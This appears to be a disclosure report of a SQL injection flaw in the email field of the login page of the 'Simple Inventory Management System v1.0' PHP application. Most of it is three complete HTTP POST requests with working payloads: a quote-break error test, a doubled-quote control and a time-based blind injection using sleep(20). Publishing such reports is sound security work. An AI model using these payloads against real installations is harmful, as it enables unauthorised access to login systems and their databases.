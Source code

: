 # Simple Inventory Management System v1.0 by oretnom23 has SQL injection

BUG_Author: li-baige

vendors:https://www.sourcecodester.com/php/15419/simple-inventory-management-system-phpoop-free-source-code.html

Vulnerability File: /ims/login.php

Parameter "email" (POST), exists SQL injection vulnerability

Payload1: email=a'&pwd=b&login=

```
POST /ims/login.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=3gtl0ab587o41bs2nnm02st0ve
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/ims/login.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 21

email=a'&pwd=b&login=
```

In response to an error

![image](https://github.com/li-baige/bugPic/blob/main/responseerror.png)

Payload2: email=a''&pwd=b&login=

```
POST /ims/login.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=3gtl0ab587o41bs2nnm02st0ve
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/ims/login.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 22

email=a''&pwd=b&login=
```

In response to the right

![image](https://github.com/li-baige/bugPic/blob/main/responseright.png)

Payload3: email=a'%2b(select*from(select(sleep(20)))a)%2b'&pwd=b&login=

```
POST /ims/login.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=3gtl0ab587o41bs2nnm02st0ve
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/ims/login.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 61

email=a'%2b(select*from(select(sleep(20)))a)%2b'&pwd=b&login=
```

Response time is 20 seconds

![image](https://github.com/li-baige/bugPic/blob/main/responsesleep.png)
